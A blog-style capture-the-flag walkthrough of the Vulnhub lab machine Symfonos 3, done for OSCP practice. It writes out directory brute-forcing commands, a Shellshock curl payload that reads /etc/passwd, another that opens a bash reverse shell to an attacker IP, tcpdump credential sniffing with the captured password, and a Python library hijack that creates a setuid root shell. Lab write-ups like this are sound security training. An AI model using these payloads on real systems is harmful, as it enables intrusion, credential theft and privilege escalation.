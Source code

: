 +++
title = "Vulnhub: Symfonos 3"
date = "2021-02-11"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Intermediate", "Vulnhub", "OSCP Prep", "ffuf", "Directory Bruteforce", "ShellShock", "Tcpdump"]
keywords = ["", ""]
description = ""
showFullContent = false
+++

<!--more-->
{{< image src="/img/symfonos1/symfonos1.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author | Machine link |
| ---------- | ------------ | ------ | ------- |
| Intermediate | 7 Apr 2020 | Zayotic | https://vulnhub.com/entry/symfonos-31,332 |

# Summary

In this box, we need to perform some directory bruteforce then use shellshock vulnerability to get our first shell.
We then sniff local traffic using tcpdump and get credentials for the next user who has permissions to write python2.7 lib 
directory. Using those write permissions we hijack a library that is imported in a script that is executed by root in a
cron job. We create a suid bash binary that we use to get a root shell.

# Reconnaissance

Nmap

```nmap
Nmap scan report for 192.168.191.130
Host is up (0.00025s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 cd:64:72:76:80:51:7b:a8:c7:fd:b2:66:fa:b6:98:0c (RSA)
|   256 74:e5:9a:5a:4c:16:90:ca:d8:f7:c7:78:e7:5a:86:81 (ECDSA)
|_  256 3c:e4:0b:b9:db:bf:01:8a:b7:9c:42:bc:cb:1e:41:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

## HTTP (80)

Visiting the IP on the browser, all we get is a picture.

{{< image src="/img/symfonos3/symfonos3-11.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Viewing the source doesn't reveal much.

{{< image src="/img/symfonos3/symfonos3-12.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Performing a recursive directory bruteforce using ffuf with recursion enabled we get several directories.

```sh
ffuf -ic -c -u http://192.168.191.130/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -recursion | tee ffuf.out.recurse
```

{{< image src="/img/symfonos3/symfonos3-3.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Going to the research endpoint, there's information about the Underworld and Greek mythology. 

{{< image src="/img/symfonos3/symfonos3-4.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Some of the words look similar to the directories we discovered, so let's create a wordlist which maybe helpful later.

```shell
cewl http://192.168.191.130/gate/cerberus/tartarus/research -w words.txt
```
The current directories we have discovered don't have much in them. At this point I was stuck a bit, after looking at
some writeups I realized that sometimes valid directories show when you have a trailing slash at the end. So I ran ffuf again
with a trailing slash.

```shell
ffuf -ic -c -u http://192.168.191.130/FUZZ/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt | tee ffuf.rootdir
```

{{< image src="/img/symfonos3/symfonos3-5.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With this idea, cgi-bin directory is discovered. This is a nice directory bruteforce tip I'll use going forward. The presence of
cgi-bin could potentially mean we can have a shellshock vulnerability.

Running another bruteforce using the wordlist I created earlier didn't work. I then thought to get a lowercase version of the 
words and try it.

```shell
cewl --lowercase http://192.168.191.130/gate/cerberus/tartarus/research -w words2.txt

ffuf -ic -c -u http://192.168.191.130/cgi-bin/FUZZ -w words2.txt
```
{{< image src="/img/symfonos3/symfonos3-13.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With the lowercase wordlist, we get underworld.

To verify the shellshock vulnerability, we can send this request.

```shell
curl -A "() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.191.130/cgi-bin/underworld
```

{{< image src="/img/symfonos3/symfonos3-6.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as cerberus

After verifying this vulnerability, we can get a reverse shell.

```shell
curl -A "() { :; }; echo; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.191.1/9000 0>&1 &'" http://192.168.191.130/cgi-bin/underworld
```

{{< image src="/img/symfonos3/symfonos3-7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

On running id we notice that cerberus is part of pcap group. To figure out what is unique about this group I used the find
command.

```shell
find / -group pcap -ls 2>/dev/null
```

{{< image src="/img/symfonos3/symfonos3-8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

This reveals we can run tcpdump, therefore we can sniff network traffic. 

Before sniffing traffic, I used [pspy](https://github.com/DominicBreuker/pspy) to check for cron jobs and other commands being executed.

{{< image src="/img/symfonos3/symfonos3-9.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With this I was able to pick up a cronjob that runs as root. Since ftpclient.py is being executed, I'll sniff ftp 
traffic which isn't typically encrypted.

```shell
tcpdump port 21 -n -i lo -A
```

{{< image src="/img/symfonos3/symfonos3-10.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

From the tcpdump traffic we get new credentials, hades : PTpZTfU4vxgzvRBE.

# Privilege Escalation

Using the credentials we login to ssh as hades, running id reveals hades is in gods group.

{{< image src="/img/symfonos3/symfonos3-14.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Running find again reveals we have write permissions to /usr/lib/python2.7 folder.

```shell
find / -group gods -ls 2>/dev/null
```

{{< image src="/img/symfonos3/symfonos3-15.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Based on the earlier output of pspy, we saw a cronjob that was running as root and python2.7 was being executed. Therefore we can hijack
any imports in that ftpclient.py script.

{{< image src="/img/symfonos3/symfonos3-16.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Since ftplib is imported, we'll replace ftplib.py with this script

```py
import os

os.system('cp /bin/bash /tmp/bash')
os.system('chmod +s /tmp/bash')
```

{{< image src="/img/symfonos3/symfonos3-17.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

This will create a setuid bash binary in /tmp. Which can use to gain root privileges.

{{< image src="/img/symfonos3/symfonos3-18.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

